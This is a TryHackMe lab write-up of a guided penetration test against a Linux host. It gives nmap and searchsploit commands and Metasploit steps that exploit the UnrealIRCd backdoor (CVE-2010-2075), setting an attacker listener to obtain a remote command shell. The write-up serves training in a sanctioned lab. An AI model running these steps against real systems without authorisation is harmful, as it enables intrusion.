






# Room Write-up: Guided Penetration Test
**Platform:** TryHackMe | **Module:** Offensive Security & Pentesting

## 🎯 Task 1: Introduction & Objectives
This room walks through a full infrastructure penetration testing methodology, focusing on real-world enumeration and exploitation phases.

### Core Penetration Testing Methodology:
- **Enumeration:** Gathering information about the target, identifying what services and open ports exist[cite: 32].
- **Vulnerability Analysis:** Analyzing enumeration results to connect potential security weaknesses[cite: 32].
- **Initial Access:** Choosing and executing an attack vector to gain a foothold on the target system[cite: 32].
- **Privilege Escalation:** Escalating privileges from a standard user to root or administrator[cite: 32].
- **Reporting:** Communicating findings clearly as the final deliverable[cite: 32].

### Learning Objectives:
- Scan a Linux host using tools and techniques[cite: 32].
- Research vulnerable software to discover a working exploit[cite: 32].
- Enumerate local Linux files for privilege escalation vectors[cite: 32].

## 🔍 Phase 1: Enumeration (Nmap Scan)
To discover open ports and running services on the target machine, I ran an Nmap scan with service version detection (`-sV`) and default scripting (`-sC`), saving the output to `scan.txt`.

```bash
nmap -sV -sC -oN scan.txt 10.112.189.250
```


## 🔍 Phase 2: Vulnerability Analysis (Searchsploit)
To research potential exploits for the services discovered during enumeration, I used `searchsploit` to check for known vulnerabilities associated with `UnrealIRCd`.

```bash
searchsploit UnrealIRCd
```


💥 Phase 3: Exploitation (Metasploit RCE)

With the vulnerable version of UnrealIRCd identified, we can launch Metasploit to exploit the backdoor and gain initial access.
Step 1: Search and Select the Module

First, I searched for the UnrealIRCd backdoor module within Metasploit and selected it using its index number.
```bash
search unrealircd
use 0
```


Step 2: Configure Target Options

Next, I configured the target's IP address (RHOSTS) to point to the lab machine.
```bash
set RHOSTS 10.112.189.250 (Target IP)
```


Step 3: Configure Payload and Listener Options

I verified the payload settings and configured our local attacker machine's IP (LHOST) and listening port (LPORT).
```Bash

set LHOST 192.168.137.151
set LPORT 443
```


Step 4: Execute Exploit & Establish Foothold

Finally, I ran the exploit. The module successfully connected to the target, sent the IRC backdoor command, and opened a command shell session. 
```Bash

exploit
```

🎉 Conclusion & Takeaways

This guided penetration test successfully demonstrated a full infrastructure attack chain:

    Reconnaissance: Identified a vulnerable IRC service using Nmap.

    Vulnerability Research: Found a public exploit for a known backdoor (CVE-2010-2075) via Searchsploit.

    Exploitation: Gained initial access and executed commands remotely using Metasploit.

